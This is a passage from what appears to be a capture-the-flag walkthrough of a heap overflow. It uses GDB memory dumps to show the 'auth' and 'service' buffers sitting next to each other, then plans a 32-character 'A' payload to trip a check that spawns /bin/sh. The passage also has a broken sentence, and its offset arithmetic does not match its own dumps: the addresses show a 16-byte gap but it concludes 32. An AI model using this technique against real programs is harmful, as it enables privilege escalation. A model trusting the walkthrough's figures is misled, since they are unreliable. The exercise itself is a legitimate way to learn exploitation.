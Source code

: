 Now enter the command:

```gdb
auth test
continue
service AAAAAAAA
```

At the breakpoint, we inspect both `auth` and `service`:

```gdb
(gdb) x/wx 0x8049ab0
0x8049ab0 <service>: 0x0804a018

(gdb) x/8wx 0x0804a008
0x804a008: 0x74736574  0x0000000a  0x00000000  0x00000011
0x804a018: 0x41414120  0x41414141  0x00000a41  0x00020fe1
```

**Interpretation:**

* `auth` was allocated at `0x0804a008` and contains the string `"test"` (`0x74736574`)
* `service` is allocated immediately after, at `0x0804a018`
* The 8 `"A"` characters are visible at the start of the `service` chunk

This confirms that the heap layout places the `service` buffer **right after** the `auth` buffer.
At this point, no corruption has occurred, but the layout is fragile.

**Next step:** we’ll increase the length of the `service` input to reach and overwrite memory inside the `auth` chunk, particularly the byte at offset `+0x20`.

---

### **Step 5: Overflow the Chunk**

The goal here is to **reach and overwrite the memory at **, which is the value checked during the `"login"` command:

```
if (*(auth + 0x20) != 0)
  system("/bin/sh");
```

From our previous memory inspections, we know:

* `auth` is allocated at `0x0804a008`
* `service` is allocated immediately after, at `0x0804a018`
* So `auth + 0x20` is at `0x0804a028`

This means we need to write **32 bytes** into the `service` buffer to reach `auth + 0x20`.

To confirm this, we’ll input exactly **32 characters**, that’s why we use:

```
service AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

> Note: In GDB’s interactive run, we can’t use `$(python -c '...')` because the input goes through the program’s standard input, not the shell. We must type the payload manually.

---